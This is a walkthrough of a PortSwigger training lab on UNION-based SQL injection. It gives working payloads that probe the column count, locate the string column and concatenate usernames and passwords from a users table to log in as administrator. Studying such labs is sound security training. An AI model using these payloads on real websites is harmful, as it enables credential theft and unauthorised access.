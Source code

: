 ```yaml
---
title: PortSwigger - SQLi 6 - UNION attack, retrieving multiple values in a single column
date: 2023-03-06
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

The database contains a new table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test where is the string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--   # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc'--   # works
````

Ok the second column is a string one. To extract both users and passwords columns we will have to concatenate them into just one columns using the special operator `<string> || <string>` (can vary according to the DBMS).

Let’s try on the full request now:

````text
<website>/filter?category=Gifts' UNION SELECT NULL,username || '~' || password FROM users-- # administrator~password
````
